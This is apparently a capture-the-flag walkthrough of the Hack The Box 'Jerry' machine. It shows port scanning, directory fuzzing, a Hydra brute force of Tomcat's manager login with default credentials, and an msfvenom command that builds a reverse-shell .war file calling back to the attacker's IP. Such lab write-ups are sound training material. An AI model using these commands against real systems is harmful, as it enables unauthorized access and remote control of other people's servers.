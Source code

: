 # HTB - Jerry

##### Ip: 10.10.10.95
##### Name: Jerry
##### Rating: Easy

------------------------------------------------

![Jerry.png}(../assets/jerry_assets/Jerry.png)

#### Enumeration

As always, lets kick things off with an Nmap scan covering all TCP ports. Because I'm not worried about traffic or the 'noise' I'm making, I'm adding the `--min-rate 10000` attribute to speed things along:

```text
┌──(ryan㉿kali)-[~/HTB/Jerry]
└─$ sudo nmap -p- --min-rate 10000 10.10.10.95   
[sudo] password for ryan: 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-04-22 12:25 CDT
Nmap scan report for 10.10.10.95
Host is up (0.066s latency).
Not shown: 65534 filtered tcp ports (no-response)
PORT     STATE SERVICE
8080/tcp open  http-proxy

Nmap done: 1 IP address (1 host up) scanned in 13.42 seconds
```

Ok interesting, looks like only one port open, which is pretty rare for a Windows machine. Let's go ahead and emumerate a bit further and port scan with the `-sC` and `-sV` flags set to enumerate versions and also throw some basic Nmap scripts at it:

nmap_scan.png

Looks like this is running Apache Tomcat, which usually hosts a login form in the `/manager` directory. Lets go ahead and kick off a directory fuzzing scan to see if there is anything interesting we can find:

```text
                                                                                                                             
┌──(ryan㉿kali)-[~/HTB/Jerry]
└─$ gobuster dir -u http://10.10.10.95:8080 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
===============================================================
Gobuster v3.5
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.95:8080
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.5
[+] Timeout:                 10s
===============================================================
2023/04/22 12:31:07 Starting gobuster in directory enumeration mode
===============================================================
/docs                 (Status: 302) [Size: 0] [--> /docs/]
/examples             (Status: 302) [Size: 0] [--> /examples/]
/manager              (Status: 302) [Size: 0] [--> /manager/]
```

Great! Navigating to the /manager directory in the browser I'm met with a login prompt:

login_page.png

#### Brute Forcing

Based on passed experience I know that Tomcat has a few different default passwords that are used during setup, and sometimes Administrators fail to change these credentials. Lets use Hydra to try and brute force these credentials, but rather than just using the standard rockyou.txt wordlist, in this case I'll try something more targeted to the specific service. There is a phenomenal wordlist package called SecLists available for download at https://github.com/danielmiessler/SecLists. This package contains multiple lists for directory fuzzing, wordlists for usernames and passwords, and more. Specifically of interest for us on Jerry, it also contains a list featuring default credentials for Tomcat. 

To me it always makes sense to try more targeted wordlsists first, and for a couple different reasons.

1. Just for the sake of my own time. Take a look at the wordcounts for the Tomcat Default Credentials list vs something like rockyou:

wc_list.png

Hydra can blaze through the Tomcat list n early instantly, while rockyou would take hours and hours. Starting more simple and targeted and increasing your net as needed seems like the best path here. Not to mention that highly specific credentials may not even exist at all in rockyou.

2. While not relevant on a HTB machine, throwing something like rockyou against a login page would generate a HUGE amount of network traffic and would likely be detected quickly. While brute forcing isn't stealthy by nature, the logic follows that fewer login attempts generates less traffic and noise, which is less likely to be detected.

So all that said lets kick off Hydra against the login page:

hydra_bf.png

Nice! Hydra has found two possible sets of credentials. The first pair of admin:admin turned out to be a false positive (Hydra is great, but not perfect after all), but the credentials tomcat:s3cret worked great. We can now login to the /manager page. From here it should be a breaze to get a working shell on the machine.

Scrolling down the page we see  there is an option to upload and deploy a .war file.

war_upload.png

This will be the ticket onto the machine. Lets go ahead and generate a reverse shell .war file using msfvenom:

#### Exploitation

```text
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.24 LPORT=443 -f war > rev_shell.war
```

After uploading the file and deploying it, I can see my rev_shell in the applications list. Making sure I have a netcat listener set up on port 443, I can catch a shell back by simply clicking on rev_shell, which forwards me to http://10.10.10.95:8080/rev_shell/.

Taking a look at my listener I see it worked, and I now have a shell as nt\authority system, which also means no privilege escalation needed!

nc_shell.png

Navigating to the Administrators desktop I see that both flags are in the '2 for the price of 1.txt' file:

both_flags.png

#### Something Extra

Funnily enough, in this case, brute forcing wasn't even needed. After a failed login attempt at /manager, we are redirected to a 403: Access Denied page, which contains some 'helpful' instructions:

access_denied.png

We can see here the default (but working) credentials listed as an example. To me, it always makes sense to start simple and throw a quick admin:admin or admin:password at a login page, or to try any example credentials you find before kicking off a brute forcing or dictionary attack.

#### Key Takeaways

- As a user or administrator, make sure you always change your default credentials when setting up services. Conversely, as an attacker, it's always a good idea to try known default credentials or other easy quick wins (root:root, admin:passwd, etc), before getting too technical or trying nosiy methods like brute forcing. 

-  On a similar note, it always makes sense to try simpler, more targeted attacks before resorting to more complex and less specific attack vectors. Cast a small net at first, and increase in complexity and in scope only as needed.

- Lastly, SecLists is your friend, and very much worth downloading and exploring.

Thanks for following along!

-Ryan

---------------------------------------------------------------------------------------------
